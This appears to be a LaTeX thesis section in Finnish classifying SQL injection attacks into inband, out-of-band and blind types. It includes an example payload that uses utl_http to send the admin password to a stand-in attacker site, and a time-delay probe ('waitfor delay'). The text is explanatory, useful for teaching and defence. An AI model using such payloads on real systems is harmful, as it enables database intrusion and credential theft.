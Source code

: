 \documentclass[finnish]{tktltiki2}
\theoremstyle{definition}
\theoremstyle{remark}
\begin{document}
	\subsection{SQL-Injektioiden luokittelu}
	SQL-Injektioita luokitallaan myös sen mukaan, miten hyökkääjä saa haluamansa tiedon sovellukselta. Artikkelin "SQL-Injection is still alive"\space  mukaan SQL-injektioita on kolmea eri päätyyppiä\cite{still-alive}.
	
	\begin{description}
		\item[Inband injektio] \hfill \\
		Kun SQL-injektion tuloste saadaan samaa reittiä kun se on syötetty, on kyseessä inband injektio. Esimerkiksi jos sovelluksessa on mahdollista hakea lista tuotteista jotka ovat käyttäjän haluamasta maasta. Injektion jälkeen sovellus palauttaisi esimerkiksi kaikki tietokannasta löytyvät tuotteet.
		
		\item[Out-of-band injektio] \hfill \\
		Kun SQL-Injektion tuloste saadaan eri reittiä kun se on syötetty, on kyseesä out-of-band injektio. Web-sovellus saattaa esimerkiksi tallettaa tietokantaansa millä selaimilla sitä on käytetty. Selaintiedot haetaan HTTP pyynnön "User-Agent" kentästä. Hyökkääjä voi asettaa SQL-injektion User-Agent kenttäänsä. Todennäköisesti hyökkääjä ei näe kyselyn tulosta kyselyn palauttamalla sivulla. Hyökkääjän voi ohjata tulokset itselleen esimerkiksi suorituttamalla injektiossa haun:
		
		\begin{lstlisting}[language=sql]
		utl_http('http://www.hyokkaajansivu.fi/injections/' || 
		SELECT password
		FROM User 
		WHERE username = 'admin'
		)
		\end{lstlisting}
		Injektion onnistuessa hyökkääjän palvelimen logeissa näkyy esimerkiksi:
		
		\begin{lstlisting}
		GET "/injections/admininpassword", 200
		\end{lstlisting}
		
		Tällöin hyökkääjä saa selville käyttäjän admin salasanan.
		
		\item[Sokea injektio] \hfill \\
		Sokea injektio:
		Hyökkääjä ei saa minkäänlaista palautetta sovellukselta. Hyökkääjä voi kuitenkin kokeilla muokata sovelluksen tietoja ja tarkastella vaikuttaako se sovellukseen. Hyökkääjä voi käyttää apunaan sitä kuinka nopeasti sivu latautuu. Lisäämällä injektoituun sql-käskyyn komennon "waitfor delay 0:0:5", tietokanta odottaa 5 sekuntia ennen kuin se palauttaa tuloksen. Tästä voidaan päätellä injektion onnistuneen. \cite{regexp}
		
		
	\end{description}
	
\end{document}
